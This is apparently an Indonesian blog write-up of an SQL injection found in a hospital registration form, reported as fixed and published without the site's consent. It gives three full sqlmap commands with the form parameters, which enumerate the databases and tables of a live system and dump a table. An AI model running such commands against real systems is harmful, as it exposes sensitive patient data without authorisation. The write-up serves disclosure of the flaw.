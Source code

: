 ```yaml
---
title: "P1 SQL Injection Form Pendaftaran Rumah Sakit"
date: 2023-12-28T13:39:57+07:00
draft: false
tags:
- bugbounty
---
```

Saat akan daftar disalah satu rumah sakit tiba tiba kepikiran bisa gak sih form iin di inject?
# POC
1. Buka form pendaftaran, isikan dengan random data

![Form login](https://raw.githubusercontent.com/bembenk18/Images/main/SQLI-Rumah_Sakit/1.png)

2. Intercept post data dengan OWASP ZAP

![POST data](https://raw.githubusercontent.com/bembenk18/Images/main/SQLI-Rumah_Sakit/2.png)

3.  Setelah itu coba dengan sqlmap 
```
sqlmap -u https://redacted.com/index.php/CProsesDaftar/getpasien" --data="nomrm=Halo&tgllahir=2025-05-07&nik=9827982798279827&search=nomrm&tglperiksa=2023-12-07" --level 5 --risk 3 --banner --ignore-code 401 --technique=B --flush --dbs --threads 2
```

![Database name](https://raw.githubusercontent.com/bembenk18/Images/main/SQLI-Rumah_Sakit/3.png)

4. Lihat isi table invoice
```
sqlmap -u "https://redacted.com/index.php/CProsesDaftar/getpasien" --data="nomrm=Halo&tgllahir=2025-05-07&nik=9827982798279827&search=nomrm&tglperiksa=2023-12-07" --level 5 --risk 3 --banner --ignore-code 401 --technique=B --flush --threads 2 -D redacted-database --tables
```


![Table](https://raw.githubusercontent.com/bembenk18/Images/main/SQLI-Rumah_Sakit/4.png)

5. Dump table 
```
 sqlmap -u "https://redacted.com/index.php/CProsesDaftar/getpasien" --data="nomrm=Halo&tgllahir=2025-05-07&nik=9827982798279827&search=nomrm&tglperiksa=2023-12-07" --level 5 --risk 3 --banner --ignore-code 401 --technique=B --flush --threads 2 -D redacted-database  -T redacted-table --dump
```

6. Hasil dump adalah file .csv yang jika dibuka akan menampilkan informasi dibawah ini

![Hasil](https://raw.githubusercontent.com/bembenk18/Images/main/SQLI-Rumah_Sakit/5.png)


# Timeline Bug Report
- Report bug ke admin: 9 Desember 2023
- Respons: Sampai tulisan ini terbit belum ada respons dari pihak terkait (tulisan ini saya terbitkan tanpa persetujuan pihak terkait, jika ada keberatan dari pihak terkait maka akan saya takedown)
- Bug status: Fixed
- Rewards: -